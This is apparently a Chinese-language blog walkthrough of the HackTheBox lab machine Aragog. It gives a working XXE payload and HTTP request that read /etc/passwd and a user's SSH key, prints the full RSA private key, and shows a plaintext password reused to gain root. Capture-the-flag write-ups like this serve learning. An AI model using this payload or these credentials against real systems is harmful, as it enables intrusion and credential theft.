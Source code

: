```yaml
---
layout: post
title:  "HackTheBox >_ Aragog_78"
description: walkthrough
category: HackTheBox
---
```

# Aragog_78

![image-20200919205806832]({{ site.url }}/assets/Aragog_78.assets/image-20200919205806832.png)

![image-20200919205847470]({{ site.url }}/assets/Aragog_78.assets/image-20200919205847470.png)

![image-20200919205916639]({{ site.url }}/assets/Aragog_78.assets/image-20200919205916639.png)

80似乎没什么

先测试ftp匿名登陆

![image-20200919210022199]({{ site.url }}/assets/Aragog_78.assets/image-20200919210022199.png)

改模式。下载。

![image-20200919210144245]({{ site.url }}/assets/Aragog_78.assets/image-20200919210144245.png)

查看

![image-20200919210214072]({{ site.url }}/assets/Aragog_78.assets/image-20200919210214072.png)

看内容格式应该是xml

xml一般是数据页面，把数据信息传递给某个程序或页面进行处理，我们目前只有`host.php`

使用burp suite在host.php这页进行抓包，将包发往repeater模块

![image-20200919210602161]({{ site.url }}/assets/Aragog_78.assets/image-20200919210602161.png)

修改包内容部分，将`test.txt`内容写入，并发送

![image-20200919210742168]({{ site.url }}/assets/Aragog_78.assets/image-20200919210742168.png)

看回显应该是处理了

![image-20200919211033105]({{ site.url }}/assets/Aragog_78.assets/image-20200919211033105.png)

说明存在XXE

简单来说，XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

```bash
GET /hosts.php HTTP/1.1
Host: 10.10.10.78
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

payload

```bash
<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

![image-20200919211912576]({{ site.url }}/assets/Aragog_78.assets/image-20200919211912576.png)

现在有了一个可以查看服务器文件的入口了

正常返回，发现两个用户

`florian`和`cliff`

分别替换xxe里面的目录查看一下对应用户的ssh私钥。毕竟目标还是进系统。80没入口，肯定优先考虑ssh

`file:///home/cliff/.ssh/id_rsa`

什么也没有。看一下florian的

![image-20200919212435627]({{ site.url }}/assets/Aragog_78.assets/image-20200919212435627.png)

打出来私钥了

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

在本机制作新的私钥

```bash
$ vim id_rsa.key
$ chmod 600 id_rsa.key
```

使用私钥登录ssh成功

![image-20200919212736495]({{ site.url }}/assets/Aragog_78.assets/image-20200919212736495.png)

得到user

![image-20200919212902976]({{ site.url }}/assets/Aragog_78.assets/image-20200919212902976.png)

在`/var/www/html`发现了另一套wp，同时在文件夹中的`creds.txt`中发现了一组凭证

![image-20200919213817851]({{ site.url }}/assets/Aragog_78.assets/image-20200919213817851.png)

```bash
Administrator:!KRgYs(JFO!&MTr)lf
```

尝试是否存在密码复用

直接su，使用这个密码，成功root，root密码复用

![image-20200919214049645]({{ site.url }}/assets/Aragog_78.assets/image-20200919214049645.png)

![image-20200919214113713]({{ site.url }}/assets/Aragog_78.assets/image-20200919214113713.png)

